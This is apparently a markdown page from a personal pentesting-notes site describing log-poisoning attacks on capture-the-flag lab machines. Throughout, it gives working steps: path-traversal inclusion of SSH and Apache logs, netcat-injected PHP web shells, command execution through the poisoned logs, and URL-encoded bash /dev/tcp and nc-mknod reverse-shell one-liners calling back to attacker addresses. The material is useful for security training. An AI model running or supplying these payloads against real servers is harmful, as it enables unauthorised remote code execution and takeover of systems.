 ```yaml
---
layout: default
title: Log Poisoning
parent: Web Exploits
nav_order: 2
---
```


# Log Poisoning

---

## SSH Auth Log Poisoning

Check if _/var/log/auth.log_ is visible.

```bash
URL: http://192.168.202.80/console/file.php?file=../../../../../../../var/log/auth.log
```

![ssh_log](../../../../assets/images/ctfs/proving_grounds/ha_natraj/ssh_log.png)

Process for testing SSH auth log poisoning and RCE:

1. Netcat verbose to the target on port 22
2. Send malicious php code
3. Verify SSH auth log poisoning successful
4. Execute RCE with PHP cmd shell via poisoned log

Send PHP cmd shell through SSH via Netcat.

```bash
# netcat verbose to target on port 22
nc -nv 192.168.202.80 22

# send malicious php code
pwn_code/<?php passthru($_GET['cmd']); ?>
```

Verify SSH auth log is poisoned.

![ssh_poison](../../../../assets/images/ctfs/proving_grounds/ha_natraj/ssh_poison.png)

Execute RCE with PHP cmd shell via poisoned log.

```bash
URL: http://192.168.202.80/console/file.php?file=../../../../../../../var/log/auth.log&cmd=id
```

![cmd_rce](../../../../assets/images/ctfs/proving_grounds/ha_natraj/cmd_rce.png)

Get reverse shell with URL encoded bash one-liner

```bash
URL: 192.168.202.80/console/file.php?file=../../../../../../../var/log/auth.log&cmd=bash -c "bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F192.168.45.217%2F9001%200%3E%261"
```

![rev_shell](../../../../assets/images/ctfs/proving_grounds/ha_natraj/rev_shell.png)

## Apache Access Log Poisoning

Start by poisoning the Apache2 access log with a PHP web shell.

```bash
┌──(vagrant㉿kali)-[~/Documents/PG/PLAY/solstice]
└─$ nc -nv 192.168.222.72 80
(UNKNOWN) [192.168.222.72] 80 (http) open
GET /<?php system($_GET['cmd']); ?>
HTTP/1.1 400 Bad Request
Date: Sat, 04 Nov 2023 03:37:05 GMT
Server: Apache/2.4.38 (Debian)
Content-Length: 301
Connection: close
Content-Type: text/html; charset=iso-8859-1

<!DOCTYPE HTML PUBLIC "-//IETF//DTD HTML 2.0//EN">
<html><head>
<title>400 Bad Request</title>
</head><body>
<h1>Bad Request</h1>
<p>Your browser sent a request that this server could not understand.<br />
</p>
<hr>
<address>Apache/2.4.38 (Debian) Server at 127.0.0.1 Port 80</address>
</body></html>

```

View _/var/log/apache2/access.log_ to see the 400 GET request we sent through netcat.

![log](../../../../assets/images/ctfs/proving_grounds/solstice/log.png)

Test RCE with the PHP web shell in the access log.

```bash
URL: http://192.168.222.72:8593/index.php?book=../../../../../var/log/apache2/access.log&cmd=id
```

![rce](../../../../assets/images/ctfs/proving_grounds/solstice/rce.png)

Use _revshellgen_ to generate a nc-mknod reverse shell one-liner.

```bash
# Generate reverse shell-oneliner
revshellgen -i 192.168.45.191 -p 9001 -t nc-mknod | tail -n 1

# URL encode the payload
urlencode "rm /tmp/l;mknod /tmp/l p;/bin/sh 0</tmp/l | nc 192.168.45.191 9001 1>/tmp/l"

# Run the following URL to get a reverse shell
URL: 192.168.170.72:8593/index.php?book=../../../../../var/log/apache2/access.log&cmd=rm%20%2Ftmp%2Fl%3Bmknod%20%2Ftmp%2Fl%20p%3B%2Fbin%2Fsh%200%3C%2Ftmp%2Fl%20%7C%20nc%20192.168.45.191%209001%201%3E%2Ftmp%2Fl
```

After executing the payload in our PHP web shell we get a reverse shell on our netcat listener.

![shell](../../../../assets/images/ctfs/proving_grounds/solstice/shell.png)
